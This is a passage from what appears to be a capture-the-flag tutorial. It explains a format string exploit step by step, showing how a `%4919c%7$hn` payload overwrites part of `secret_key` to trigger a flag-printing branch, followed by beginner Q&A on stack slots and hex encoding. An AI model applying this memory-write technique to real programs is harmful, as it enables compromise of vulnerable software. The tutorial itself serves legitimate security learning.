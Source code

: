 ### Step 4: Execution Flow

When `dprintf(2, (char *)&local_68)` executes:

```
Time | Action                              | chars_printed | Memory
-----|-------------------------------------|---------------|------------------
T0   | printf starts processing            | 0             | 0x404012 = 0x0BAD
T1   | %4919c prints (4918 spaces + char)  | 4919          | 0x404012 = 0x0BAD
T2   | %7$hn reads parameter 7             | 4919          | 0x404012 = 0x0BAD
     | → finds address: 0x404012           |               |
T3   | Writes 0x1337 to address 0x404012   | 4919          | 0x404012 = 0x1337 ✓
T4   | printf finishes                     | 4919          | secret_key = 0x1337C0DE
```

### Step 5: Win Condition Triggered

```c
if (secret_key == 0x1337c0de) {  // TRUE!
    read_flag();  // Prints the flag
}
```

---

## Common Beginner Questions Answered

### Q1: What is parameter 7? I thought it's my input?

**Answer:** Parameter 7 **IS** your input, but at a specific position!

Think of parameters as "slots" that printf reads:
```
Slot 1-4: Old stack data
Slot 5: buf[0-7]    ← Your input starts here
Slot 6: buf[8-15]   ← More of your input
Slot 7: buf[16-23]  ← Even more of your input
```

You control what goes into these slots by controlling your input!

### Q2: How does `0x7025702570257025` appear?

**Answer:** It's ASCII to hex conversion!

```
Your input: '%' 'p' '%' 'p' '%' 'p' '%' 'p'
As bytes:   0x25 0x70 0x25 0x70 0x25 0x70 0x25 0x70
As 64-bit:  0x7025702570257025 (read right-to-left due to little-endian)
```

### Q3: `%4919c` is only 7 bytes, how does it print 4919 characters?

**Answer:** The **format string** is 7 bytes, but when **executed**, it prints 4919 characters!
